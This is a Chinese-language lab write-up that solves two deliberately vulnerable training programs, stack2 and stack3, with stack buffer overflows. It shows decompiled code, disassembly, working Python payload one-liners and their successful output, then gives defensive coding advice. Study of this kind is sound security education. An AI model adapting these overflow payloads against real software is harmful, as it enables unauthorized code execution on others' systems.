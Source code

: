 # 栈溢出实验2

## 实验概述

### 【目的】
1. 运行stack2，获得输出`you have correctly modified the variable`
2. 运行stack3，获得输出`code flow successfully changed`
### 【环境】
Linux
### 【工具】
python,IDA pro
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】

#### stack2

```
$ binwalk stack2

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)
```
打开IDA进行分析。
```c#
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest; // [sp+8h] [bp-50h]@3
  int v5; // [sp+48h] [bp-10h]@3
  char *src; // [sp+4Ch] [bp-Ch]@1

  src = getenv("GREENIE");
  if ( !src )
    errx(1, "please set the GREENIE environment variable\n");
  v5 = 0;
  strcpy(&dest, src);
  if ( v5 == 218762506 )
    puts("you have correctly modified the variable");
  else
    printf("Try again, you got 0x%08x\n", v5);
  return 0;
}
```
跟实验一的stack1差不多，我们可以发现危险函数`strcpy(&dest, src);`
这里要控制src变量的值，需要自定义环境变量GREENIE，在Linux中，使用 `export 变量=值`
可以改变当前环境变量的值，于是有：
```
lometsj@ubuntu:~/prostar$ export GREENIE=`python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"'`
lometsj@ubuntu:~/prostar$ echo $GREENIE
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
lometsj@ubuntu:~/prostar$ ./stack2
you have correctly modified the variable

```

#### stack3
```
$ binwalk stack3

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+Ch] [bp-4Ch]@1
  void (*v5)(void); // [sp+4Ch] [bp-Ch]@1

  v5 = 0;
  gets(&s);
  if ( v5 )
  {
    printf("calling function pointer, jumping to 0x%08x\n", v5);
    v5();
  }
  return 0;
}
int win()
{
  return puts("code flow successfully changed");
}
```
```
.text:0804846B                 public win
.text:0804846B win             proc near
.text:0804846B                 push    ebp
.text:0804846C                 mov     ebp, esp
.text:0804846E                 sub     esp, 8
.text:08048471                 sub     esp, 0Ch
.text:08048474                 push    offset s        ; "code flow successfully changed"
.text:08048479                 call    _puts
.text:0804847E                 add     esp, 10h
.text:08048481                 nop
.text:08048482                 leave
.text:08048483                 retn
.text:08048483 win             endp
```
可以发现危险函数`gets(&s);`,观察可以发现，当v5不为0时，程序会跳转到v5指向的地址执行，这里我们把v5指向函数`int win()`的地址，可以得到输出`code flow successfully changed`。

```
$ python -c "print 'a'*64 + '\x6b\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x0804846b
code flow successfully changed

```
可以看到我们通过溢出成功跳转到了win函数执行代码。
### 【总结】
这次实验通过栈溢出简单的熟悉了Linux下环境变量的设置和c语言的函数指针，需要注意的是，通过export设置的环境变量只对当前终端有效。
可以发现，要使栈溢出发生，要满足以下条件：

- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。

